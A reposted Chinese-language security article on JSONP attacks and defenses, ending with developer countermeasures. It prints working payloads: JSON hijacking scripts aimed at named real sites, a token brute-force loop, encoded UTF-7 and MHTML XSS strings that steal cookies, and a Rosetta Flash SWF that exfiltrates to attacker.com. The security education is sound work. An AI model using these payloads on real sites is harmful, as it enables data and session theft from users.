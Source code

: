 JSONP 安全攻防技术
2015-03-02
转载出处：http://blog.knownsec.com/2015/03/jsonp_security_technic/
文/周景平 ( Superhei )    [ 知道创宇首席安全官 ( CSO ) ]    2014 . 07 . 12
注：本文首发于《程序员》 2014 . 08 期


关于 JSONP
JSONP 全称是 JSON with Padding ，是基于 JSON 格式的为解决跨域请求资源而产生的解决方案。他实现的基本原理是利用了 HTML 里 <script></script> 元素标签，远程调用 JSON 文件来实现数据传递。如要在 a.com 域下获取存在 b.com 的 JSON 数据( getUsers.JSON ):
{"id" : "1","name" : "知道创宇"}
那么他们可以首先通过 JSONP 的“ Padding ”这个 getUsers.JSON 输出为：
callback({"id" : "1","name" : "知道创宇"});
对于实际应用过程中 callback 的名称在后台实现是动态输出的。如上面例子在 PHP 实现：
<?php
//getUsers.php
$callback = $_GET['callback'];
print $callback.'({"id" : "1","name" : "知道创宇"});';
?>
然后在 a.com 使用 <script> 进行远程调用,在 Jquery 里可以直接这样调用：
<script type="text/javascript" src="http://mini.jiasule.com/framework/jquery/1.9.1/jquery-1.9.1.js"></script>
<script type="text/javascript">
    $.getJSON("http://www.b.com/getUsers.php?callback=?", function(getUsers){
          alert(getUsers.name);
    });
</script>
然而，安全问题一直都是伴随着业务发展而出现的，JSONP 的出现同样带来了各种各样的安全问题。本文对 JSONP 实现过程中给带来的安全攻防问题做了一些简单介绍。

一、JSON 劫持
JSON 劫持又为“ JSON Hijacking ”，最开始提出这个概念大概是在 2008 年国外有安全研究人员提到这个 JSONP 带来的风险。其实这个问题属于 CSRF（ Cross-site request forgery 跨站请求伪造）攻击范畴。当某网站听过 JSONP 的方式来快域（一般为子域）传递用户认证后的敏感信息时，攻击者可以构造恶意的 JSONP 调用页面，诱导被攻击者访问来达到截取用户敏感信息的目的。一个典型的 JSON Hijacking 攻击代码：
<script>
function wooyun(v){
    alert(v.username);
}
</script>
<script src="http://js.login.360.cn/?o=sso&m=info&func=wooyun"></script>
这个是在乌云网上报告的一个攻击例子（ WooYun-2012-11284 ）http://www.wooyun.org/bug.php?action=view&id=11284 当被攻击者在登陆 360 网站的情况下访问了该网页时，那么用户的隐私数据（如用户名，邮箱等）可能被攻击者劫持。
虽然这种攻击已经出现了好几年了，但是目前在大的门户网站都还普遍存在的，而且由于安全意识问题很多官方可能还不认为这是一个安全问题，上面提到的例子其实当时在乌云网站上 360 是忽视了的！
当然还是随着安全意识和技术水平的提高，很多甲方公司开始重视此类安全问题，开始着手研究解决方案。其中一个方案就是验证 JSON 文件调用的来源（ Referer ）。这个方案是主要利用了 <script> 远程加载 JSON 文件时会发送 Referer ，在网站输出 JSON 数据时判断 Referer 是不是白名单合法的就可以进行防御！这个方法是可行的，但是具体实现过程中又容易导致 2 总常见的逻辑问题：
1、Referer 过滤（正则）不严谨
比如 http://www.qq.com/login.php?calback=cb 输出数据时,使用了 Referer 过滤。但是可惜过滤的时候只过滤了 Referer 里是否存在 qq.com 这样的关键词，那么攻击者可以听过构造 URL：http://www.qq.com.attack.com/attack.htm  或者 http://www.attack.com/attack.htm?qq.com 这样的页面来发起攻击实现绕过 Referer 防御。
2、空 Referer
在很多情况下，开发者在部署过滤 Referer 来源时，忽视了一个空 Referer 的过滤。一般情况下浏览器直接访问某 URL 是不带 Referer 的，所以很多防御部署是允许空 Referer 的。恰恰也就是这个忽视，导致了整个防御的奔溃。因为在通过跨协议调用 js 时，发送的 http 请求里 Referer 为空！ 跨协议调用的一个简单例子：
<iframe src="javascript:'<script>function JSON(o){alert(o.userinfo.userid);}</script><script src=http://www.qq.com/login.php?calback=JSON></script>'"></iframe>
代码里我们使用 <iframe> 调用 javscript 伪协议来实现空 Referer 调用 JSON 文件。
另外一种防御手段就是通过随机 token 来防御，这个技术在 qq 的网站上应用比较多，如：http://r.qzone.qq.com/cgi-bin/tfriend/friend_show_qqfriends.cgi?uin=[QQ号码]&g_tk=[随机token] 来输出 JSON ，同样这个方案也是效的，但是同样可以出现防御实现的不严谨问题。如这个 token 可以暴力。如：
function _Callback(o){
    alert(o.items[0].uin);
}
for(i=17008;i<17009;i++){  //暴力循环调用
    getJSON("http://r.qzone.qq.com/cgi-bin/tfriend/friend_show_qqfriends.cgi?uin=1111111&g_tk="+i);
}
当然以上的方式是单纯的针对“ JSON 劫持”本身的来展开的各种攻防战。但是在现实里，很多漏洞是配合组合来实现突破的，比如上面提到的限制 Referer+ 部署随机 token 实现都很完美，无懈可击！但是只要在该网站上出现一个 XSS 漏洞，那么利用这个 XSS 漏洞可能让你的防御体系瞬间崩溃！ 另外这里顺带提一点：以上的方法是一些通用实现“ JSON 劫持”的方法，但是现实中某些浏览器的一些特有的处理机制（如 CSS 加载，错误信息显示等），导致一些类似“ JSON 劫持”（攻击对象不一定是 JSON ）的攻击！

二、Callback 可定义导致的安全问题
在本文开头介绍 JSON 原理的就说明了可能是为了方便前段开发调用，一般输出时都是可定义的，开头提到的 php 实现的代码：
<?php
//getUsers.php
$callback = $_GET['callback'];
print $callback.'({"id" : "1","name" : "知道创宇"});';
?>
也就是这个可定义化的 callback 名输出点又导致了各种安全问题，当然严格上来说里面提到的具体数据输出也是可以利用的，只是本文重点强调的 callback 这个输出点。
1、Content-Type 与 XSS 漏洞
在早期 JSON 出现时候，大家都没有合格的编码习惯。再输出 JSON 时，没有严格定义好 Content-Type（ Content-Type: application/json ）然后加上 callback 这个输出点没有进行过滤直接导致了一个典型的 XSS 漏洞，上面演示的 getUsers.php 就存在这个问题：
http://127.0.0.1/getUsers.php?callback=<script>alert(/xss/)</script>
对于 Content-Type 来说早期还有一部分人比较喜欢使用 application / javascript  而这个头在 IE 等浏览器下一样可以解析 HTML 导致 XSS 漏洞。对于这种类型的漏洞，防御主要是从两个点去部署的：
a、严格定义 Content-Type: application / json
这样的防御机制导致了浏览器不解析恶意插入的 XSS 代码（直接访问提示文件下载）。但是凡事都有个案，在 IE 的进化过程中就出现过通过一些技巧绕过 Content-Type 防御解析 html ，比如在 IE6、7 等版本时请求的 URL 文件后面加一个 /x.html 就可以解析 html （ http://127.0.0.1/getUsers.php/x.html?callback=<script>alert(/xss/)</script>  ） 具体参考：http://hi.baidu.com/hi_heige/item/f1ecde01c4af3ed61ef04646
b、过滤 callback 以及 JSON 数据输出
这样的防御机制是比较传统的攻防思维，对输出点进行 xss 过滤。又是一个看上去很完美的解决方案，但是往往都是“事与愿违”。当年( 2011 年)一个 utf7-BOM 就复活了 n 个 XSS 漏洞。这种攻击方式主要还是存在与 IE 里(注在 IE 较新版本里已经“修复”) 也就是当我们在 callback 点输出 +/v8 这样的 utf7-BOM 的时候， IE 浏览器会把当前执行的编码认为是 utf7 ,所以我们通过 utf7 提交的 XSS 代码会被自动解码并执行。如：
http://127.0.0.1/getUsers.php?callback=%2B%2Fv8%20%2BADwAaAB0AG0APgA8AGIAbwBkAHkAPgA
8AHMAYwByAGkAcAB0AD4AYQBsAGUAcgB0ACgAMQApA
DsAPAAvAHMAYwByAGkAcAB0AD4APAAvAGIAbwBkAHk
APgA8AC8AaAB0AG0APg-%20
其中：
%2B%2Fv8
%20%2BADwAaAB0AG0APgA8AGIAbwBkAHkAPgA8AHMAY
wByAGkAcAB0AD4AYQBsAGUAcgB0ACgAMQApADsAPAAv
AHMAYwByAGkAcAB0AD4APAAvAGIAbwBkAHkAPgA8AC8
AaAB0AG0APg-%20
URLdecode 为：
+/v8
+ADwAaAB0AG0APgA8AGIAbwBkAHkAPgA8AHMAY
wByAGkAcAB0AD4AYQBsAGUAcgB0ACgAMQApADs
APAAvAHMAYwByAGkAcAB0AD4APAAvAGIAbwBkA
HkAPgA8AC8AaAB0AG0APg-

其中 +/v8  为 utf7-BOM ，后面的为我们注入的 utf-7 编码后的 XSS 代码的：
<htm><body><script>alert(1);</script></body></htm>
[参考：http://hi.baidu.com/hi_heige/item/357831ab6932239a14107346]
这次利用 utf7-BOM 的方法是一个非常有代表性的通用方法，IE 后面的升级也是做一定的防御，另外在开发者角度也给出了防御方法直接强制指定 Content-Type里的编码 ( Content-Type: application/json; charset=utf-8 )  对于现在的浏览器上，虽然没有比较通用的技巧，但是对于开发者本事过滤的机制一样可能存在各种绕过的可能。
看来上面提到的 a 和 b 两点的防御缺一都可能出问题，那么我们使用“ a + b 方案”，也就是两者都上是不是很安全了不会出现问题了呢？一切皆有可能，我们拭目以待！

三、其他文件格式（ Content-Type ）与 JSON
1、MHTML 与 JSONP
在 2011 年 IE 曾经出现过一个听过 mhtml 协议解析跨域的漏洞：MHTML  Mime-Formatted Request Vulnerability  ( CVE-2011-0096 )  https://technet.microsoft.com/library/security/ms11-026 而当时的一个常见利用就是利用 JSONP 调用机制里的 Callback 函数名输出点：
<iframe src="mhtml:http://127.0.0.1/getUsers.php?callback=Content-Type%3A%20multipart%2Frelated%3B%20boundary%3D_boundary_by_mere%0D%0A%0D%0A--_boundary_by_mere%0D%0AContent-Location%3Acookie%0D%0AContent-Transfer-
Encoding%3Abase64%0D%0A%0D%0APGJvZHk%2BDQo8aWZyYW1lIGlkPWlmciBzcmM9Imh0dHA6Ly93d3cuODB2d
WwuY29tLyI%2BPC9pZnJhbWU%2BDQo8c2NyaXB0Pg0KYWxlcnQoZG9jdW1lbnQuY29va2ll
KTsNCmZ1bmN0aW9uIGNyb3NzY
29va2llKCl7DQppZnIgPSBpZnIuY29udGVudFdpbmRvdyA%2FIGlmci5jb250ZW50V2luZG93I
DogaWZyLmNvbnRlbnREb2N1bWVudDsNCmFsZXJ0KGlmci5
kb2N1bWVudC5jb29raWUpDQp9DQpzZXRUaW1lb3V0KCJjc
m9zc2Nvb2tpZSgpIiwxMDAwKTsNC
jwvc2NyaXB0PjwvYm9keT4NCg%3D%3D%0D%0A--_boundary_by_mere--%0D%0A!cookie"></iframe>

[详见： 《Hacking with mhtml protocol handler》http://www.80vul.com/mhtml/Hacking%20with%20mhtml%20protocol%20handler.txt]
这个点就充分利用了 callback 输出点直接输出一个 mhtml 文件格式，然后利用 <iframe> 调用 mhtml 标签解析并执行 html 及 javascript 代码，这也就是一个通用性的 XSS 漏洞（ UXSS ），随后微软紧急推出了解决方案及漏洞补丁程序！而对于开发者防御而已在微软推出安全补丁之前这个漏洞影响 Google 等国际大型网站，到时 Google 为了防御这类补丁，启用的防御措施是，在 JSON 输出 callback 时，在文件开头增加了多个换行回车让远程 mhtml 调用时解析失败。
在攻击角度来说，这个充分利用了计算机体系里各种文件格式识别机制，这个也和 Callback 直接在 json 文件开头输出的突然优势！在这个思维的引导下，后面还出现各种各样的文件格式加载带来的安全问题，比如 CSS 文件格式加载导致的类“ JSON 劫持”的安全问题、JS 加载及各种文件格式编码带来的安全问题等等。历史进程里往往会出现各种惊人的相识，JSONP 与文件格式的各种传奇还在上演...
2、FLASH 与 JSONP
该来的始终会来，只是没想到相似的场景上演到这么快!就在最近的一次 flash 安全更新 ( security bulletin APSB14-17[http://helpx.adobe.com/security/products/flash-player/apsb14-17.html] ) 里修复了一个安全漏洞：
These updates include additional validation checks to ensure that Flash Player rejects malicious content from vulnerable JSONP callback APIs ( CVE-2014-4671 ).
而这个漏洞因影响到 Google、Facebook、Tumblr 等国际大网站而倍受国内外媒体的关注。而这个攻击技术就和 JSONP 的 callback 点息息相关. 这个问题主要存在 HTML 通过<embed>、<object>调用远程 flash 文件时，会直接忽视 Content-Type 而 JSONP 的 callback 输出一般都在文件开头就输出，那么完全可以通过 callback 点输出一个 swf 的文件，然远程 html 调用并运行 swf 文件。如：
<script>
// from http://50.56.33.56/blog/?p=242
var flashvars = {};
var params = {};
var attributes = {};
var url="http://127.0.0.1/getUsers.php?callback=CWS%07%AA%01%00%00x%DADP%C1N%021%14%9C%ED%22-j0%21%24%EB%81%03z%E3%E2%1F%18XI%88%1E%607%C0%C1%8B%D9%ACP%91X%ECf%A9%01%BF%40N%1C%F7%E6%DD%CF%F1%8F%F0%B5K%E2%3BL%DFL%DA%E9%9B%B7%05%FF%05%82%0Chz%E8%B3%03U%AD%0A%AA%D8%23%E8%D6%9B%84%D4%C5I%12%A7%B3%B7t%21%D77%D3%0F%A3q%A8_%DA%0B%F1%EE%09gpJ%B2P%FA9U0%2FHr%AD%0Df%B9L%8D%9C%CA%AD%19%2C%A5%9A%C3P%87%7B%A9%94not%AE%E6%ED%2Bd%B96%DA%7Cf%12%ABt%F9%8E4%CB%10N%26%D2%C4%B9%CE%06%2A%5D%ACQ0%08%B4%1A%8Do%86%1FG%BC%96%93%F6%C2%0E%C9%3A%08Q%5C%83%3F2%80%B7%7D%02%2B%FF%83%60%DC%A6%11%BE%7BU%19%07%F6%28%09%1B%15%15%88%13Q%8D%BE%28ID%84%28%1F%11%F1%82%92%88%FD%B9%0D%EFw%C0V34%8F%B3%145%88Zi%8E%5E%14%15%17%E0v%13%AC%E2q%DF%8A%A7%B7%01%BA%FE%1D%B5%BB%16%B9%0C%A7%E1%A4%9F%0C%C3%87%11%CC%EBr%5D%EE%CA%A5uv%F6%EF%E0%98%8B%97N%82%B9%F9%FCq%80%1E%D1%3F%00%00%00%FF%FF%03%00%84%26N%A8";
swfobject.embedSWF(url, "content", "400", "200", "10.0.0", "expressInstall.swf", flashvars, params, attributes);
</script>
这样早在 2012 年提出的通过 callback 输出的 swf 文件流，的实际效果是在被攻击的网站上存放了一个恶意的 swf 文件，而 html 远程调用这个 swf 文件可以直接导致 CSRF 攻击.
[具体上传 flash 文件带来的 CSRF 攻击请参考我写的《 Flash+Upload Csrf  攻击技术》 http://blog.knownsec.com/2014/06/flashupload_csrf_attacking/]
细心的朋友可能发现上面代码里 callback 输出的 swf 文件流里存着各种各样的特殊字符，这个对于上面提到的“ b、过滤 callback 以及 JSON 数据输出”防御方案直接给拦截了，对于 Goolge 、Facebook 这样久经考验的大网站来说，防御应该不在话下！
在 flash 的更新“ security bulletin APSB14-17 ”发布后，该漏洞发现者给出了详细的漏洞细节其中一个亮点就是作者实现了一个纯 alphanumeric 输出的 swf 文件的方法，如：
<object type="application/x-shockwave-flash"
data="https://vulnerable.com/endpoint?callback=CWSMIKI0hCD0Up0IZ
UnnnnnnnnnnnnnnnnnnnUU5nnnnnn3Snn7iiudIbEAt333swW0ssG03sDDtDDDt0
333333Gt333swwv3wwwFPOHtoHHvwHHFhH3D0Up0IZUnnnnnnnnnnnnnnnnnnnUU
5nnnnnn3Snn7YNqdIbeUUUfV13333333333333333s03sDTVqefXAxooooD0Ciud
IbEAt33swwEpt0GDG0GtDDDtwwGGGGGsGDt33333www033333GfBDTHHHHUhHHHe
RjHHHhHHUccUSsgSkKoE5D0Up0IZUnnnnnnnnnnnnnnnnnnnUU5nnnnnn3Snn7YN
qdIbe13333333333sUUe133333Wf03sDTVqefXA8oT50CiudIbEAtwEpDDG033sD
DGtwGDtwwDwttDDDGwtwG33wwGt0w33333sG03sDDdFPhHHHbWqHxHjHZNAqFzAH
ZYqqEHeYAHlqzfJzYyHqQdzEzHVMvnAEYzEVHMHbBRrHyVQfDQflqzfHLTrHAqzf
HIYqEqEmIVHaznQHzIIHDRRVEbYqItAzNyH7D0Up0IZUnnnnnnnnnnnnnnnnnnnU
U5nnnnnn3Snn7CiudIbEAt33swwEDt0GGDDDGptDtwwG0GGptDDww0GDtDDDGGDD
GDDtDD33333s03GdFPXHLHAZZOXHrhwXHLhAwXHLHgBHHhHDEHXsSHoHwXHLXAwX
HLxMZOXHWHwtHtHHHHLDUGhHxvwDHDxLdgbHHhHDEHXkKSHuHwXHLXAwXHLTMZOX
HeHwtHtHHHHLDUGhHxvwTHDxLtDXmwTHLLDxLXAwXHLTMwlHtxHHHDxLlCvm7D0U
p0IZUnnnnnnnnnnnnnnnnnnnUU5nnnnnn3Snn7CiudIbEAtuwt3sG33ww0sDtDt0
333GDw0w33333www033GdFPDHTLxXThnohHTXgotHdXHHHxXTlWf7D0Up0IZUnnn
nnnnnnnnnnnnnnnnUU5nnnnnn3Snn7CiudIbEAtwwWtD333wwG03www0GDGpt03w
DDDGDDD33333s033GdFPhHHkoDHDHTLKwhHhzoDHDHTlOLHHhHxeHXWgHZHoXHTH
No4D0Up0IZUnnnnnnnnnnnnnnnnnnnUU5nnnnnn3Snn7CiudIbEAt33wwE03GDDG
wGGDDGDwGtwDtwDDGGDDtGDwwGw0GDDw0w33333www033GdFPHLRDXthHHHLHqee
orHthHHHXDhtxHHHLravHQxQHHHOnHDHyMIuiCyIYEHWSsgHmHKcskHoXHLHwhHH
voXHLhAotHthHHHLXAoXHLxUvH1D0Up0IZUnnnnnnnnnnnnnnnnnnnUU5nnnnnn3
SnnwWNqdIbe133333333333333333WfF03sTeqefXA888ooooooooooooooooooo
oooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo
oooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo
ooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo8
88888880Nj0h"
style="display: none">
<param name="FlashVars"
value="url=https://vulnerable.com/account/sensitive_content_logged_in
&exfiltrate=http://attacker.com/log.php">
</object>
具体请参考：http://miki.it/blog/2014/7/8/abusing-jsonp-with-rosetta-flash/
所以对于纯 alphanumeric 的输出来说，那些针对 XSS 的过滤显然是可以直接忽略，这个漏洞也就是证明了上面我们提到的“ a + b 方案”直接绕过了！
三、防御
通过上面的攻防对抗演练，很多开发者可能会感觉有点悲剧的味道，各种防御机制好像都有办法绕过。这里我想到一个真理：没有绝对的安全！那么我们防御的意义在哪里呢？我认为防御的意义就是虽然没办法让开发的程序最安全（绝对安全），但是可以让它更安全！提高攻击者的技术成本的门槛是安全防御的一个主要的重要的方向。我们回到具体的 JSONP 防御上可以总结如下几点：
1、严格安全的实现 CSRF 方式调用 JSON 文件：限制 Referer 、部署一次性 Token 等。
2、严格安装 JSON 格式标准输出 Content-Type 及编码（ Content-Type : application/json; charset=utf-8 ）。
3、严格过滤 callback 函数名及 JSON 里数据的输出。
4、严格限制对 JSONP 输出 callback 函数名的长度(如防御上面 flash 输出的方法)。
5、其他一些比较“猥琐”的方法：如在 Callback 输出之前加入其他字符(如：/**/、回车换行)这样不影响 JSON 文件加载，又能一定程度预防其他文件格式的输出。还比如 Gmail 早起使用 AJAX 的方式获取 JSON ，听过在输出 JSON 之前加入 while(1) ;这样的代码来防止 JS 远程调用。
另：行文仓促，如有错误欢迎指正！( Email:5up3rh3i@gmail.com )
